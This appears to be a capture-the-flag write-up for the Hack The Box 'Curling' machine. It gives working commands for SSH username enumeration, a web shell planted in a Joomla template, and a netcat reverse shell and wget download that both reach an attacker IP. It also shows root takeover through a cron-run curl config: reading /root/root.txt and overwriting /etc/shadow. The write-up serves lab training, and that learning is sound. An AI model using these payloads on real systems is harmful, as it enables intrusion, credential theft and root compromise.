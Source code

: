 # Writeup Curling

## Scan

```bash
$ export target="10.10.10.150"
$ nmap -T4 --max-retires 1 --max-scan-delay 20 --defeat-rst-ratelimit --open -oN nmap/quick.nmap -vv $target
$ nmap -T4 -p22,80 -sCV -oN nmap/ports.nmap -vv $target
```

## Enumeration

**Web Enumeration**

Joomla seems to be running on port 80 and we also find a file named `secret.txt`:
```bash
$ nikto -h $target -p 80 -w nikto.log
$ cmsmap -f J -F -v http://$target/ -o cmsmap.log
[-] Checking interesting directories/files ...
[L] http://10.10.10.150/secret.txt

Joomla 3.8.8
```

The content of `secret.txt` is `base64` encoded: `curl -s "http://$target/secret.txt" | base64 -d`.  

**SSH User Enumeration**

We use *OpenSSH 7.7 - Username Enumeration* and a custom wordlist to enumerate ssh users:
Let's use SecList's list and append some names from the page:  
```bash
$ echo -e "pebble\ncurl\nsheet\nfloris" >> usernames.txt
# OpenSSH 7.7 - Username Enumeration
$ v 45233.py
# replace _handler_table with _client_handler_table
:%s/_handler_table/_client_handler_table/g
$ chmod +x 45233.py && ./45233.py --userList usernames.txt --outputFile result.txt $target
$ cat result.txt
pebble is not a valid user!
curl is not a valid user!
sheet is not a valid user!
floris is a valid user!
```
Together with secret.txt this the login for joomla.  

## Exploitation

**Joomla to reverse shell**

Add `system($_GET["x"]);` to Extensions > Templates > Templates > Beez3 > jsstrings.php.  
Generate reverse shell code and connect back to attacker machine:
```bash
$ nc -nlvp 4444
$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.x.x LPORT=4444
# use burp repeater, encode url argument!
http://10.10.10.150/templates/beez3/jsstrings.php?x=mknod+/tmp/backpipe+p%3b+/bin/sh+0<+/tmp/backpipe+|+nc+10.10.14.20+4444+1>+/tmp/backpipe+HTTP/1.1
```
Upgrade to full tty shell:
```bash
# attacker
$ socat file:`tty`,raw,echo=0 tcp-listen:4444
# remote: download from attacker machine, cause cant resolve github..
$ cd /tmp && wget http://10.10.x.x:8000/socat
$ socat exec:'bash -li'ty,stderr,setsid,sigint,sane tcp:10.10.xx.xx:4444
```

## Privilege Escalation

Find config files: `find /etc -name "*.conf" -exec ls -lad \{} \;`  
Find files writeable for us (dont include mount points): 
```bash
$ find / -xdev -perm -g+w -group $USER -type f -exec ls -lad \{} \; 2>/dev/null
-rw-rw---- 1 root floris 0 Mar 26 17:39 /home/floris/admin-area/report
-rw-rw---- 1 root floris 25 Mar 26 17:39 /home/floris/admin-area/input
```

With `pspy` we can see a job running regulary:
```
root     24678  0.0  0.1  57500  3312 ?        S    10:36   0:00 /usr/sbin/CRON -f
root     24679  0.0  0.0   4628   780 ?        Ss   10:36   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root     24680  0.0  0.4 105360  9092 ?        S    10:36   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
It runs `curl -K input -o report` as root. We can control the config file of curl.  
Invoking curl on localhost, will serve `/var/www/html/index.php`.  
So we use joomla to change its content to: `<?php echo $_POST['profile'] ?>`
```bash
$ vim input
url = "http://127.0.0.1"
form = profile=</root/root.txt
$ cat report
<flag here>
```

**Be like the cool kids**

Read `/etc/shadow`. Generate your own root entry and overwrite the original.  
Use `su -` to test root. SSH with root wont work because of `PermitRootLogin no`!
```bash
$ v input
url = "http://127.0.0.1"
form = profile=</etc/shadow
$ mypass=$(openssl passwd -6 -salt 1337 hackthebox)
$ mypass=$(printf "root:%s:17673:0:99999:7:::" $mypass)
root:$6$1337$JsudCn3CkTagZThboj1Tq4oPY1LXAj9EW.SJX.YZIFwP7YBTA3sKy7qMHX4.WG3OlIBIa2xJhbFNjC6y6BqNA0:17673:0:99999:7:::
# replace first line in file
$ sed "1s/.*/$mypass" shadow

# write new shadow file
$ url = "file:///tmp/shadow"
$ output = /etc/shadow
$ su -
```

..or create symlink, so `-o report` will actually overwrite `/etc/shadow`.
```bash
$ echo 'url=file:///tmp/shadow' > input 
$ rm report 
$ ln -s /etc/shadow report
```

**Other useful stuff:**
* connect to sftp using curl: `curl sftp://$target/ -v --insecure --user floris:"<password>"`
* find word writeable files owned by root: `find / -uid 0 -perm u+w,g+w,o+w`

Rebuild environment with docker:
```bash
$ docker pull mysql:5.6.40 
$ docker pull joomla:3.8.8
# create joomla db, link db to joomla container
$ docker run -d --name joomla_db -e MYSQL_ROOT_PASSWORD mysql:5.6.40
$ docker run --name joomla_blog --link joomla_db:mysql -p 8080:80 -d joomla:3.8.8

# attach with console to running container
docker exec -it joomla_blog bash
```

**Reference:**

* https://github.com/DominicBreuker/pspy  
* https://www.exploit-db.com/exploits/45233  
* https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/  
* https://isc.sans.edu/forums/diary/Exploiting+the+Power+of+Curl/23934/  
